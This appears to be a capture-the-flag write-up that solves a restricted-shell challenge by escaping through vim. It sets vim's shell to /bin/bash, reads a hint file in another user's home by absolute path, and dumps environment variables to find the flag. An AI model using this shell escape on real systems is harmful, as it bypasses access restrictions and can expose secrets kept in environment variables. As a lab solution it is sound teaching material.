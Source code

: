 # Solution

**TL;DR.** Use `vim` to escape `vim`.

1. Override the shell env variable use vim's `set` command.
    ```
    # press escape, then type command, then enter
    :set shell=/bin/bash
    ```

2. Navigate `ned`'s home using absolute paths for commands (since the `PATH` variable has been unset).
    ```
    # press escape, then type command, then enter
    :!/bin/cat /home/ned/hint.txt
    ```
3. It reads "The flag is hidden in an env variable. You have to find it by your own."

4. Now, as the hint indicates, we list all env variables and the flag should be there.
    ```
    # press escape, then type command, then enter
    :!/bin/env | /bin/grep ATHACKCTF
    ```